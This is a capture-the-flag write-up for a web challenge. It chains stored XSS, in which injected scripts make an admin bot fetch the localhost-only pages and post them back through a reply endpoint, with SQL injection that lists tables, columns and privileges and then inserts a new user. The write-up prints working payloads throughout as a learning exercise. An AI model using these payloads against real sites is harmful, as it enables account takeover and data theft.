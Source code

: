 # Web - PP size

### Description
Let's measure each other's PP and conquer the ultimate PP size championship.
Reach at least 1337.1 centimeters in PP length to get the flag.

Note: Initial PP size is random and cannot exceed 20.

### Playing with service

Upon registration, a comments section becomes visible, 
allowing us to submit posts. After posting a comment and refreshing 
the page, we can view the administrator's reply, along with a clue 
indicating that the admin bot has access only to localhost. 
This is an opportunity to experiment with potential XSS 
(Cross-Site Scripting) vulnerabilities. 
Let's try posting some funny xss code to see
if it affects the system or administrator's response:
```html
<script>alert(1)</script>
```

This works, so it's a XSS challenge, let's try to download the page from admin point of view using `/reply/:id`

```html
<script>
const text = document.body.innerHTML.replaceAll(' ', '').replaceAll('\n', '');
for(let i = 0; i < text.length; i+=200)
fetch(window.location.pathname.replace("comment", "reply"), {method: "POST",body: "message=" + encodeURIComponent(btoa(btoa(
    text.slice(i,i+200)
))),headers: {"Content-Type": "application/x-www-form-urlencoded"}})
</script>
```

This one is interesting: `<a href="/search">Search</a>`, 
let's try getting it

```html
<script>
fetch('/search').then(resp => resp.text()).then(t => {
const text = t.replaceAll(' ', '').replaceAll('\n', '');
for(let i = 0; i < text.length; i+=200)
fetch(window.location.pathname.replace("comment", "reply"), {method: "POST",body: "message=" + encodeURIComponent(btoa(btoa(
    text.slice(i,i+200)
))),headers: {"Content-Type": "application/x-www-form-urlencoded"}})
)
});
</script>
```

The page involves submitting a username via a POST request to the 
/search endpoint. Since some individuals frequently overlook security 
measures in their admin dashboards, it's crucial to initially assess
for potential vulnerabilities like SQL injection. To test this, we'll 
attempt to submit the username '"/ and observe the system's response.
```html
<script>
fetch("/search", {
method: "POST",
body: "query=" + encodeURIComponent("'\"/"),
headers: {"Content-Type": "application/x-www-form-urlencoded"}})
.then(e => e.text()).then(t => {
const text = t.replaceAll(' ', '').replaceAll('\n', '');
for(let i = 0; i < text.length; i+=200)
fetch(window.location.pathname.replace("comment", "reply"), {method: "POST",body: "message=" + encodeURIComponent(btoa(btoa(
        text.slice(i,i+200)
))),headers: {"Content-Type": "application/x-www-form-urlencoded"}})
})
</script>
```


Once we receive an SQL error, we can be fairly certain that an 
SQL injection vulnerability exists. This is our cue to start 
gathering more information about the database system.

### Listing Tables:

To retrieve the names of all tables, we use this SQL query:
```sql
>>> and 1=0 union select table_name from information_schema.tables;--
```

The system responds with the names of several tables:
```
<<< users, insertion_memo, etc...
```

### Listing Columns for a Specific Table (e.g., 'users'):

To get the column names for the 'users' table, the following query is used:

```sql
>>> ' and 1=0 union select column_name from information_schema.columns where table_name = 'users';--
```

This yields the following column names for the 'users' table:

```sql
<<< username, password, pp_size, id
```

### Identifying User Permissions:

To determine the current database user, we run this query:

```sql
>>> ' and 1=0 union select current_user;--
```

The system responds with the current user:

```sql
<<< dummy
```

Next, we want to understand the user’s permissions on each table. Here's how we do it:
```sql
>>> ' and 1=0 union select 'table: ' || table_name || ', priv: ' || privilege_type;--
```

This query reveals the following permissions:

```sql
<<< table: users, priv: INSERT
<<< table users, priv SELECT
<<< table insertion_memo, priv INSERT # this is not interesting, used only for cleanup
```

From this information, we can identify potential targets and the 
risk level associated with each table and permission. 
Now that we have confirmation of our ability to insert a new record 
into the 'users' table, along with the exact column names, 
let's proceed with the exploitation.

### Inserting a New User into 'users' Table

Using the following SQL statement, we insert a new user into the 'users' table:

```sql
>>> ' OR 1 = 1; INSERT INTO users(username, password, pp_length) VALUES('es3n1n', '123', 1338);--
```

### Logging In with the New User

With the insertion successful, we can now log in using the newly created credentials. 
For the username, use `es3n1n`, and for the password, use `123` (common es3n1n's password btw).

```py
import requests

HOST = "localhost:1337"

s = requests.session()

s.post(f'http://{HOST}/login', data={
    'login': 'es3n1n',
    'password': '313233' # note it's hex encoded
})

r = s.get(f'http://{HOST}/login')
print(r.text)
```

### Flag
`cr3{th3_ult1m4t3_p3e_pe3}`
